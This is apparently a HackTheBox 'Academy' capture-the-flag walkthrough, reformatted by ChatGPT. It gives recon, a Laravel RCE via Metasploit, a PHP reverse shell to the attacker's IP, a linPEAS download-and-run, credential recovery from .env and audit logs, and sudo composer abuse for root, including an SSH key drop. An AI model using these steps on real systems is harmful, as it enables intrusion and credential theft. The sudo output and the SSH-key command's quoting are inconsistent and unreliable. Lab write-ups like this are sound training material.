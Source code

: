 Here’s your complete **HTB: Academy Walkthrough** in Markdown format with **every relevant command** grouped by stage (Recon, Foothold, User Shell, PrivEsc, Root), formatted cleanly for documentation, reuse, or future reference:

---

# 🎓 HackTheBox: Academy Walkthrough

- **OS**: Linux  
- **Difficulty**: Easy  
- **IP**: `10.10.10.215`  
- **Points**: 20  
- **Date**: Feb 14, 2021  
- **Author**: Mohamed Ezzat (converted and enhanced by ChatGPT)  

---

## 🌐 Network Scanning

```bash
nmap -p- -T4 -A 10.10.10.215
```

Edit `/etc/hosts`:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb
```

---

## 📁 Enumeration

### HTTP (Port 80)

```bash
gobuster dir --url http://academy.htb/ -w /usr/share/wordlists/dirb/common.txt
```

- Discovered: `admin.php`
- Registered an account on the site
- Intercepted POST with Burp Suite and modified:

```http
POST /register
...
roleid=1
```

Access:

```http
http://academy.htb/admin.php
```

From the admin panel, discovered subdomain:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb dev-staging-01.academy.htb
```

---

## 💥 Exploitation

### Laravel RCE (CVE-2018–15133)

Check Laravel version hint from `.env` at `dev-staging-01.academy.htb`:

```bash
# Manually visit:
http://dev-staging-01.academy.htb
```

Run Metasploit:

```bash
msfconsole
search laravel

use exploit/unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.10.10.215
set VHOST dev-staging-01.academy.htb
set LHOST <your-tun0-IP>
run
```

Spawn TTY shell:

```bash
/usr/bin/php -r '$sock=fsockopen("10.10.16.9",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🧑‍💻 User: `cry0l1t3`

### Find .env file & Password

```bash
find / -type f -name .env 2>/dev/null
cat /var/www/html/academy/.env
# or
cat /var/www/html/htb-academy-dev-01/.env
```

Discovered credentials:

```plaintext
mySup3rP4s5w0rd!!
```

Login as `cry0l1t3` via SSH:

```bash
ssh cry0l1t3@10.10.10.215
id
cat user.txt
```

---

## 🧑 User: `mrb3n`

### Enumerate with linPEAS

On Kali:

```bash
cd ~/Downloads
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://10.10.16.9:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Find credentials manually:

```bash
cd /var/log/audit
cat * | grep 'comm="su"'
# Extract the HEX from `data=` and decode to ASCII
```

Switch to user:

```bash
su mrb3n
# Password: mrb3n_Ac@d3my!
```

---

## 👑 Privilege Escalation to Root

### Sudo Check

```bash
sudo -l
```

Output:

```
(mrb3n) NOPASSWD: /usr/bin/composer
```

### GTFOBins: Composer to Root

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Alternative (SSH Key Drop):

```bash
TF=$(mktemp -d)
echo '{"scripts":{"ssh":"echo 'ssh-ed25519 AAAA...yourkey... user@host' >> /root/.ssh/authorized_keys"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script ssh

# Then from Kali:
ssh -i ~/.ssh/id_rsa root@10.10.10.215
```

### Read Root Flag

```bash
cd /root
cat root.txt
```

---

## ✅ Summary

| Stage            | User         | Method                                             |
|------------------|--------------|----------------------------------------------------|
| Foothold         | `www-data`   | Laravel RCE + admin role bypass                    |
| User             | `cry0l1t3`   | `.env` file password reuse                         |
| Lateral Movement | `mrb3n`      | Audit log credential leak (linPEAS or manual grep) |
| Root             | `root`       | Composer abuse (GTFOBins)                          |
